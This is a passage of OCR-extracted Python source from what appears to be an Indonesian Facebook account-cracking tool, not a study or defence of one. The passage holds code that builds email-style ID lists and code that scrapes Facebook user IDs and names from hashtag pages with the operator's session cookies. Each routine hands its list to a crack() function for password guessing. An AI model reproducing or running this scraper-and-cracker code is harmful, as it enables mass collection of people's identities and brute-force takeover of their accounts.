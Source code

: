             try:nama = _query_1_;email = ('%s%s'%(_query_1_,str(_hitung_email_1_)));_azimvau_dapunta_(_file_,'a+').write('%s•%s\n'%(email,nama));_hitung_email_1_ += 1
            except:continue
        for _jumlah_ in range(_limit_awal_,_limit_akhir_):
            try:nama = _query_2_;email = ('%s%s'%(_query_2_,str(_hitung_email_2_)));_azimvau_dapunta_(_file_,'a+').write('%s•%s\n'%(email,nama));_hitung_email_2_ += 1
            except:continue
        for _jumlah_ in range(_limit_awal_,_limit_akhir_):
            try:nama = _query_3_;email = ('%s%s'%(_query_3_,str(_hitung_email_3_)));_azimvau_dapunta_(_file_,'a+').write('%s•%s\n'%(email,nama));_hitung_email_3_ += 1
            except:continue
        for _jumlah_ in range(_limit_awal_,_limit_akhir_):
            try:
                if '.' in __query__:_query_ = __query__;nama = __query__.replace('.',' ')
                elif '_' in __query__:_query_ = __query__;nama = __query__.replace('_',' ')
                elif '-' in __query__:_query_ = __query__;nama = __query__.replace('-',' ')
                else:_query_ = __query__.replace(' ','');nama = __query__
                email = ('%s%s'%(_query_,str(_hitung_email_full_)));_azimvau_dapunta_(_file_,'a+').write('%s•%s\n'%(email,nama));_hitung_email_full_ += 1
            except:continue
    except:jalan('%s [%s!%s] %sTHERE IS AN ERROR'%(M,P,M,P));time.sleep(2);menu()
    _buka_file_ = _azimvau_dapunta_(_file_,'r').read().splitlines();print("%s [%s•%s] %sALL ID : %s%s"%(H,P,H,K,H,str(len(_buka_file_))))
    return crack(_file_)

### Dump ID Dari Hashtag
def hashtag(cookies):
    _query_ = _cici_azimvau_('%s [%s•%s] %sENTER HASHTAG : '%(H,P,H,B));_url_dev_ = 'https://mbasic.facebook.com/hashtag/' + _query_;_file_ = (_query_+'.json').replace(' ','_')
    try:os.remove(_file_)
    except:pass
    print("%s [%s•%s] %sPRESS CTRL+C TO STOP DUMP"%(H,P,H,K));exec_hashtag(_url_dev_,cookies,_file_);print("\n%s [%s•%s] %sSUCCESSFUL DUMP %s ID"%(H,P,H,K,len(_azimvau_dapunta_(_file_).read().splitlines())));return crack(_file_)
def exec_hashtag(url,cookies,_file_):
    open(_file_,'a');_req_ses_ = requests.Session();_req_get_ = _req_ses_.get(url,cookies=cookies,headers=header_hashtag);_sop_dev_ = par(_req_get_.text,'html.parser');_buka_file_ = open(_file_).read();print ("\r%s [%s•%s] %sTAKING %s%s ID"%(H,P,H,K,H,len(_azimvau_dapunta_(_file_).read().splitlines())),end='');sys.stdout.flush()
    try:
        for _cici_ in _sop_dev_.find_all('h3'):
            for _azimvau_ in _cici_.find_all('a',href=True):
                if 'mbasic.facebook.com' in _azimvau_.get('href'):pass
                else:
                    if "profile.php" in _azimvau_.get('href'):
                        try:
                            _name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall("profile\.php\?id=(.*?)&",_azimvau_.get("href")))
                            if _name_dev_ in _buka_file_:pass
                            elif '/' in _id_dev_:pass
                            else:open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                        except:pass
                    else:
                        try:
                            _name_dev_ = _azimvau_.text;_id_dev_ = "".join(bs4.re.findall("/(.*?)\?",_azimvau_.get("href")))
                            if _name_dev_ in _buka_file_:pass
                            elif '/' in _id_dev_:pass
                            else:open(_file_,'a+').write('%s•%s\n'%(_id_dev_,_name_dev_))
                        except:pass
            for _azimvau_ in _sop_dev_.find_all('a',href=True):
                if 'See More Results' in _azimvau_.text:url_dev = _azimvau_.get('href');exec_hashtag(url_dev,cookies,_file_)